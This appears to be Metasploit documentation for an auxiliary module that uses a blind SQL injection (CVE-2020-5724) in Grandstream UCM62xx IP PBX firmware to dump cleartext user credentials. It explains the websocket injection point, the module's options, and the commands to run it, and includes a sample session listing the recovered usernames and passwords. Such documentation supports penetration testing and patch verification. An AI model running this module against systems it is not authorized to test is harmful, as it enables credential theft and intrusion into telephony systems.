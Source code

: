 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the user database. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX frimware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### ID_SCAN

Indicates the total number of user IDs to scan for. The module starts by scanning the
database for valid user ids. The IDs are sequential starting at 0. The default
scans the first 30 IDs which would be 0 - 29.

### STRING_FIELD_LENGTH

Indicates the maximum length of the string fields (username and password) that
we'll allow for in our SQLi guessing.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ID_SCAN    30               yes       The number of initial user ids to scan
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > run

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found 6 valid user ids
[*] Found username: admin
[*] Found password: cheesed00dle
[*] Found username: 1000
[*] Found password: gZ15S8O8U5S72oli
[*] Found username: 1001
[*] Found password: qK6uRxwC
[*] Found username: 1002
[*] Found password: aP9ux515W7p5U
[*] Found username: 1003
[*] Found password: pM6mo!E8u37k
[*] Found username: 1004
[*] Found password: mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > 
```
